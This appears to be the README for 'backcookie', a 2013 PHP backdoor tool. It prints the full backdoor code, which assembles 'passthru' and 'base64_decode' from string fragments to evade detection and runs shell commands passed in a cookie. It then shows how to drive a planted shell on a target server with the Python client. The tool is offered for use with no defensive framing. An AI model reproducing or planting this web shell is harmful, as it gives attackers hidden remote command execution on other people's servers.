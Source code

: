 backcookie
==========


Small backdoor using cookie.

==========

```php
<?php 
$bOne = "pa"."ss"."th"."ru";
$bTwo = "ba"."se"."64"."_"."de"."co"."de";
$bKey = "yourcookie"; # conection backdoor
$bOne($bTwo($_COOKIE[$bKey]));
?>
```

```
Example one: python backcookie.py -u http://target.com/shell.php -c name_cookie
```
```
Example two: python backcookie.py --url http://target.com/shell.php --cookie name_cookie
```
Custom command (binfo), You get objective information
```
@pwned:~$ binfo
```

* Inserted in -> [blackarch](http://blackarch.org/tools.html)

## Happy hacking!

-------------

Copyright, 2013 by [Jose Pino](http://twitter.com/jofpin)

-------------
